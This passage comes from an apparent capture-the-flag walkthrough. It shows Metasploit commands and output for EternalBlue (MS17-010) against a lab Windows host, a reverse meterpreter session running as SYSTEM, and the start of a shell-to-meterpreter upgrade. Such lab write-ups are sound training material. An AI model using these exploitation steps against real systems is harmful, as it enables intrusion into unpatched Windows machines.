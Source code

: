 5. Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). 

**Output**

```bash
msf5 exploit(windows/smb/ms17_010_eternalblue) > sessions

Active sessions
===============

Id  Name  Type                     Information                   Connection
--  ----  ----                     -----------                   ----------
1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.2.44.183:9999 -> 10.10.190.61:49169 (10.10.190.61)

```
\
We see we have indeed backgrounded our session.

## PRIVESC

1. We are going to create a msf shell from the shell we have got. This will give us additional functionality to dig around the box. We use the one found here and set the `Session` to the open session we have.

**Output**

```bash
msf5 exploit(windows/smb/ms17_010_eternalblue) > search shell_to_meterpreter

Matching Modules
================

#  Name                                    Disclosure Date  Rank    Check  Description
-  ----                                    ---------------  ----    -----  -----------
0  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade

msf5 post(multi/manage/shell_to_meterpreter) > options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on.

msf5 post(multi/manage/shell_to_meterpreter) > set session 1
```
